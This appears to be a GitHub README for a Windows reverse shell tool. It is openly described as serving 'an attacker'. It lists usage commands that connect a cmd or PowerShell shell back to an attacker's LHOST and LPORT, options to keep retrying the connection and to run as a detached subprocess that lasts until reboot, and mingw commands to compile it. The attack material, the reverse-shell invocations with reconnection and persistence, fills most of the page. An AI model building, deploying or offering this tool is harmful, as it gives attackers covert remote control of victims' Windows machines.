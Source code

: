# windows-rev-shell
An advanced windows reverse shell. Allows to specify the type of shell (cmd or powershell), can be programmed to automatically attempt to reconnect and can be spawned as subprocess allowing an attacker to continue 
## Usage
One shot <br>
`shell.exe LHOST LPORT <cmd|powershell> 0` <br>
Attempt to reconnect to the specified IP. The last parameter indicates the number of seconds between attempts <br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY` <br>
One shot reverse shell spawned as subprocess to keep the current terminal free. The process is disposed once the attacker closes the connection on his side<br>
`shell.exe LHOST LPORT <cmd|powershell> 0 s` <br>
Spawn a reverse shell subprocess that will periodically attempt to reconnect to the host. The process is indipendent from the original shell and will continue to exist until the machine is rebooted<br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY s` <br>
## Building
32 Bit version <br>
`i686-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
64 Bit version <br>
`x86_64-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>

